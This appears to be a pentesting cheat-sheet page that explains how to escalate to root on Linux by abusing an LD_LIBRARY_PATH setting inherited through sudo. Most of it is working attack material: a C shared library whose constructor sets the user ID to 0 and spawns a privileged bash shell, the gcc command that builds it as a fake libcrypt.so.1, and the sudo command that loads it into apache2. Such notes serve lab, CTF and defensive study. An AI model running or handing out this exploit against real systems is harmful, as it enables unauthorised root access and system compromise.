



### **STEPS TO IDENTIFY AND EXPLOIT LD_LIBRARY_PATH**

1.  Verify which environment variables are being inherited  
    `sudo -l`  
    
    
    
2.  Identify the shared libraries required by the target application (e.g., apache2):  
    `ldd /usr/sbin/apache2`  
    
    

    ??? info "NOTE"

        the library libcrypt.so.1 is chosen due to its common use and effectiveness.
    
3.  Create  `library_path.c` C file that includes a constructor function to execute desired commands upon loading:
    
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    void inject()__attribute__((constructor));
    
    void inject() {
        unsetenv("LD_PRELOAD");
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
    }
    ```
    
    ??? info "NOTE"

        The constructor attribute is a special function attribute in GCC. It instructs the compiler to automatically execute the annotated function before main() is called, allowing your commands to run as soon as the shared library is loaded..
    
4.  Compile the C file into a shared library with the same name as the target library:  
    `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`
    
5.  Run the target application with sudo, setting LD_LIBRARY_PATH to include the directory containing the malicious library:  
    `sudo LD_LIBRARY_PATH=. apache2`  

    